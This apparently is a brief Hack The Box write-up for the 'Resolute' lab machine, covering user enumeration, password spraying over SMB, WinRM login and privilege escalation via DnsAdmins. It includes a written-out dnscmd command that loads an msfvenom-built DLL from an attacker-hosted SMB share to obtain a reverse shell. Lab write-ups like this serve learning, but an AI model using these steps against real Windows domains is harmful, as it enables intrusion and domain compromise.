 ```yaml
---
title: 'Resolute HTB'
date: '2020-05-30 19:50:00'
author: fuxsocy
description: Resolute By Fuxsocy
image: 
    path: '/images/resolute.png'
categories: ["htb"]
---
```


## user.txt
Run enum4linux script and find the usernames there, a username has a comment about a password, take all usernames and try against smbshare with that password, the username melanie with the password will work, now use winrm and connect and grab user.txt.

## root.txt

Now I find the user ryan has used as a parameter to cmd.exe and then I login as ryan. After that I see a note saying that dues to change freeze, any system changes will be automatically reverted within 1 minute.

I see the groups and there is a group `DnsAdmins`. I had read this post `https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise` . I create a dll using msfvenom, and then I use impacket-smbserver and then use `dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.0.0.2\gis\dnsprivesc.dll` and then stop and start the dns. And get reverse shell. 

